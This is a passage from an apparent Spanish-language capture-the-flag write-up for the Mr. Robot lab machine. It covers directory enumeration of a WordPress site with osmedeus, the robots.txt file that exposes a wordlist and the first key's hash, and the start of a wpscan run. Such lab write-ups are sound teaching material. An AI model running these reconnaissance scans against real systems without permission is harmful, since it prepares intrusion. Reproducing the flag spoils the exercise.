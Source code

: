 Vemos que solo tiene abierto los puertos 80,443 y el SSH se encuentra cerrado. Ahora vamos a listar los posibles directorios:
<pre>root@kali:/usr/local/src/Osmedeus# ./osmedeus.py -m dir -t http://172.31.255.128

200 1KB http://172.31.255.128:80/admin/
200 1KB http://172.31.255.128:80/admin/?/login
200 1KB http://172.31.255.128:80/admin/index
200 1KB http://172.31.255.128:80/admin/index.html
200 0B http://172.31.255.128:80/favicon.ico
200 1KB http://172.31.255.128:80/index.html
200 504KB http://172.31.255.128:80/intro
200 19KB http://172.31.255.128:80/license.txt
200 10KB http://172.31.255.128:80/readme
200 10KB http://172.31.255.128:80/readme.html
<strong>200 41B http://172.31.255.128:80/robots.txt</strong>
200 0B http://172.31.255.128:80/sitemap
200 0B http://172.31.255.128:80/sitemap.xml
200 0B http://172.31.255.128:80/sitemap.xml.gz
200 0B http://172.31.255.128:80/wp-config.php
200 0B http://172.31.255.128:80/wp-content/
200 0B http://172.31.255.128:80/wp-content/plugins/google-sitemap-generator/sitemap-core.php
200 3KB http://172.31.255.128:80/wp-login.php
<strong>200 3KB http://172.31.255.128:80/wp-login</strong>
200 3KB http://172.31.255.128:80/wp-login/</pre>
Encontramos un fichero robots.txt:
<pre>http://172.31.255.128/robots.txt
fsocity.dic
key-1-of-3.txt</pre>
El archivo fsocity.dic  es un diccionario:
<pre>http://172.31.255.128/fsocity.dic
true
false
wikia
from
the
now
Wikia
extensions
scss
window
http
var
page
Robot
Elliot
styles
and</pre>
Y el segundo la primera key:
<pre>http://172.31.255.128/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9</pre>
Con wpscan escanemos las posibles vulnerabilidades de wordpress pero parece que no encontramos nada:
<pre>root@kali:~# wpscan --force --wp-content-dir wp-admin --url http://172.31.255.128
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
